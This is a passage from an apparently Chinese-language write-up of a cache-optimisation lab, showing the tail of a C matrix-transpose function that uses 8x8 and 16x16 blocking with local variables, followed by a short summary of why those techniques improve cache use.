                        a1 = A[i+5][j+k], a5 = A[i+5][j+k+4];
                        a2 = A[i+6][j+k], a6 = A[i+6][j+k+4];
                        a3 = A[i+7][j+k], a7 = A[i+7][j+k+4];
    
                        // 将B之前存的保存到tmp后，将A赋给B
                        tmp = B[j+k][i+4], B[j+k][i+4] = a0, a0 = tmp;
                        tmp = B[j+k][i+5], B[j+k][i+5] = a1, a1 = tmp;
                        tmp = B[j+k][i+6], B[j+k][i+6] = a2, a2 = tmp;
                        tmp = B[j+k][i+7], B[j+k][i+7] = a3, a3 = tmp;
    
                        B[j+k+4][i+0] = a0, B[j+k+4][i+4] = a4;
                        B[j+k+4][i+1] = a1, B[j+k+4][i+5] = a5;
                        B[j+k+4][i+2] = a2, B[j+k+4][i+6] = a6;
                        B[j+k+4][i+3] = a3, B[j+k+4][i+7] = a7;
                    }
                }
            }
    
        } else {
            int i, j, ii, jj, a0;
            for (i = 0; i < N; i += 16) {
                for (j = 0; j < M; j += 16) {
                    for (ii = i; ii < i + 16 && ii < N; ii ++) {
                        for (jj = j; jj < j + 16 && jj < M; jj ++) {
                            a0 = A[ii][jj];
                            B[jj][ii] = a0;
                        }
                    }
                }
            }
        }
    }
    ```
    

### 总结

这次实验更多的是参考别人的解法，深感自己还有很多要学习的地方。

- 使用局部变量是为了避免后续读取内存时，把原有缓存给覆盖掉。
- 使用分块策略是为了充分利用告高速缓存的特性
